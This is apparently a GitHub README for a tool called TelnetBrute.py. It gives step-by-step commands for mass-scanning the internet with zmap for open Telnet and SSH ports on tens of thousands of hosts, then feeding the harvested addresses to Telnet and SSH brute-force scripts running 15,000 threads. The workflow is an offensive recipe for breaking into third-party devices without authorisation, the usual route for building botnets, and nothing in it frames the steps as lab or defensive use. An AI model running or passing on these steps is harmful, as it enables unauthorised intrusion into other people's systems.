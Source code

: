 [VPS CentOS 6.9 2GB-RAM] 

- Install zmap

yum update -y 

sh zmap_auto_install.sh

- Scan Telnet/Ssh Ips

1- zmap -p23 -o mfutelnet.txt -N 25000    OR    zmap -p22 -o mfussh.txt -w -N 25000

   1,5--(optional)  zmap -p23 -o mfutelnet.txt -w telnet.lst   OR   zmap -p22 -o mfussh.txt -w ssh.lst

- Bruteforce 

2- ulimit -n 999999

3- python TelnetBrute.py mfutelnet.txt 15000 telnettest.txt    OR    python SSHBrute.py mfussh.txt 15000 sshtest.txt 




<img src="https://raw.githubusercontent.com/XeljomudoX/TelnetBrute.py/master/lul.png">



